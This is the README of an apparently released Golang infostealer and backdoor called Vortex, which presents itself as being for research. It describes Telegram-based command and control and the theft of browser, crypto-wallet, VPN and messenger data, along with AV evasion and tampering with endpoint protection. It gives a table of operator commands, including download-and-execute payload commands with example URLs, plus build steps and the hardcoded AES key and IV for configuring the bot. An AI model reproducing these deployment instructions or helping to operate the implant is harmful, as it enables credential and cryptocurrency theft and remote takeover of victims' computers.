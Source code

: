 
This is an infostealer malware written in Golang that I have wrote long time ago for some researches and I have decided to release the code for researching.

## Overview

Vortex is a Windows-focused information-stealing implant with an operator-controlled commands. It is designed to operate as both a data exfiltration tool and a flexible backdoor: it can enumerate and manage connected clients, collect high-value artifacts (browser data, wallet extensions, messaging and desktop app data, file collections, screenshots), and receive updated components from an operator. The implant emphasizes stealth and persistence through extensive anti-analysis and AV-evasion techniques.
The data will be delivered via Telegram bot and it will be controlled via Telegram bot commands.

## Disclaimer

This project is provided **for educational and research purposes only**.
It is intended to help **security researchers and defenders** understand, analyze, and improve malware detection.
Any misuse of this code for illegal or unethical activity **is strictly prohibited**.
The author assumes **no responsibility** for any damage or consequences caused by improper use.

## Key capabilities

- **C2 Capabilities**: The implant supports remote status checks and enumeration of connected clients to identify active or available victims. It can instruct clients to perform actions such as retrieving screenshots, collecting files (images/documents), toggling data collection/upload behavior, and receiving upgraded binaries.

- **Payload distribution/backdoor**: The vortex implant can accept and execute secondary payloads supplied by the operator (documented here as a capability only).

- **Data Stealing**: Collecting much possible data include browser profiles, browser extensions (notably crypto wallet extensions), VPN client config files, messenger applications, and common desktop tools that may store credentials or sessions.

- **Evasion & anti-analysis**: Vortex implant contains sandbox/VM detection, anti-debugging techniques, heavy binary obfuscation and packing, and mechanisms intended to frustrate static and dynamic analysis.

- **Endpoint interference**: Capabilities to tamper with or disable endpoint protections have been observed or claimed; defenders should treat attempts to modify security tooling as high-risk indicators.

## Primary targets and affected software categories

> **(Listed for defensive prioritization; useful for threat-hunting and AV signature tuning.)**

| Browsers     | VPN       | CryptoWallets | CryptoWallets Extensions | Messengers | Others     |
| ------------ | --------- | ------------- | ------------------------ | ---------- | ---------- |
| 7Star        | NordVPN   | Zcash         | Tronlink                 | Discord    | FileZilla  |
| Cent         | ProtonVPN | Armory        | NiftyWallet              | Telegram   | Putty      |
| Chrome       | OpenVPN   | Exodus        | Metamask                 | Element    | Teamviewer |
| Chromium     |           | Ethereum      | MathWallet               | Signal     | WinSCP     |
| Edge         |           | Electrum      | Coinbase                 | Skype      | Steam      |
| QQBrowser    |           | Atomic        | BinanceChain             | Whatsapp   | Uplay      |
| Opera        |           | Guarda        | BraveWallet              |            |            |
| OperaNeon    |           | Coinomi       | GuardaWallet             |            |            |
| Amigo        |           | Jaxx          | EqualWallet              |            |            |
| Chedot       |           | Binance       | JaxxxLiberty             |            |            |
| Brave        |           |               | BitAppWallet             |            |            |
| ComodoDragon |           |               | iWallet                  |            |            |
| CocCoc       |           |               | Wombat                   |            |            |
| AVGBrowser   |           |               | YoroiWallet              |            |            |
| Slimjet      |           |               | TonCrystal               |            |            |
| Sputnik      |           |               | Coin98Wallet             |            |            |
| Vivaldi      |           |               | Phantom                  |            |            |
| Firefox      |           |               | GuildWallet              |            |            |
| Waterfox     |           |               | Oxygen                   |            |            |
| Palemoon     |           |               | LiqualityWallet          |            |            |
| Icecat       |           |               | Iconex                   |            |            |
|              |           |               | Mobox                    |            |            |
|              |           |               | XinPay                   |            |            |
|              |           |               | Sollet                   |            |            |
|              |           |               | Slope                    |            |            |
|              |           |               | Starcoin                 |            |            |
|              |           |               | Swash                    |            |            |
|              |           |               | Finnie                   |            |            |
|              |           |               | Keplr                    |            |            |
|              |           |               | Crocobit                 |            |            |
|              |           |               | AtomWallet               |            |            |
|              |           |               | KardiaChain              |            |            |
|              |           |               | TerraStation             |            |            |
|              |           |               | BoltX                    |            |            |
|              |           |               | RoninWallet              |            |            |
|              |           |               | XdefiWallet              |            |            |
|              |           |               | Nami                     |            |            |
|              |           |               | MultiversXDeFiWallet     |            |            |
|              |           |               | PaliWallet               |            |            |
|              |           |               | TempleTezosWallet        |            |            |
|              |           |               | ExodusWeb3Wallet         |            |            |

## Telegram Bot Commands

| Bot Command                                                 | Description                                                                                                                                     |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| /check `<ZOMBIE_ID>`                                        | Checks if the zombie host is online                                                                                                             |
| /check_all                                                  | Checks all the available zombies and who is connected                                                                                           |
| /drop `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<EXE_NAME>` `<PATH>` | Download and execute an exe file on specific zombie EX: /drop 11111-22222-3333-4444 http://file.io/payload.exe payload.exe                      |
| /screenshot `<ZOMBIE_ID>`                                   | Take screenshot of zombie desktop screen                                                                                                        |
| /get_data `<ZOMBIE_ID>` `<DATATYPE>` `<PATH>`               | Collect (images/documents) data                                                                                                                 |
| /disable_upload `<ZOMBIE_ID>`                               | Disable data dumped from uploading of specific zombie                                                                                           |
| /enable_upload`<ZOMBIE_ID>`                                 | Enable data uploading of specific zombie (Enabled by default)                                                                                   |
| /upgrade `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<IMPLANT_NAME>`   | Upgrades the current agathos implant with newer updated version EX: /upgrade 11111-22222-3333-4444 https://file.io/agathos.exe chrome_patch.exe |

## Requirements to compile

It needs to be compiled on linux machine, any type of linux distribution is compatible as long as it have Go packages and mingw compilers. I will use ubuntu here as an example.

- Install the required packages.
```bash
sudo apt install golang gcc-mingw-w64 make
```

- Start to compile (`release_x64` , `release_x32`, `debug`)
```bash
make release_x64
```

## Telegram Configuration

Start to make telegram bot using @BotFather and get the telegram token and chat ID.

Then encrypt the token and the chat ID with AES Encryption method "CBC Mode" with the following Cipher Key and IV.

- Key
```c
0xD5, 0x03, 0xE6, 0xE0, 0x63, 0x52, 0x7C,
0xB6, 0x24, 0xFE, 0x03, 0x63, 0xFF, 0xF9,
0xB3, 0xBD, 0x20, 0x94, 0x1C, 0xAF, 0x70,
0x84, 0x92, 0xB6, 0x90, 0x5F, 0x66, 0x43,
0x4D, 0xCA, 0x72, 0x77
```
- IV
```c
0x27, 0xD8, 0xB1, 0xF0, 0xDB, 0x3C, 0xAB,
0x3E, 0x20, 0x20, 0x21, 0x56, 0xBA, 0x1B,
0x37, 0x13
```

And then encode the RAW output with base64 and place it in `main.go` file.